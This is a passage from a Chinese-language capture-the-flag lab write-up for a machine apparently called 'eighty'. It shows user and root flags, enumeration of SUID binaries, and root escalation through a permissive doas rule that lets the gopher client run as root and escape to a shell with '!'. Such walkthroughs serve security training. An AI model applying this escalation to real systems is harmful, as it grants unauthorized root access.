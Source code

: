 由于采用的是 Auth 结构，所以上文提供的那些 Verification code 都是可以用的

:::

### flag - user

```bash
susan@eighty:~$ cat user.txt
hmv8use0red
```

### 环境探测

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/local/bin/doas
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/umount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/mount
```

发现存在 doas 程序，读取其配置文件

```plaintext title="/usr/local/etc/doas.conf"
permit nolog susan as root cmd gopher
```

## User - root

```bash
susan@eighty:~$ doas -u root gopher localhost 70
```

执行这条指令之后，输入用户密码，就能以 root 的身份执行 gopher 程序，应该能够看到以下界面

![img](img/image_20240332-203205.png)

接下来，按下 `!` 键，即可进入 shell

```bash
root@eighty:/home/susan# whoami
root
```

### flag - root

```bash
root@eighty:~# cat r0ot.txt
rooted80shmv
```
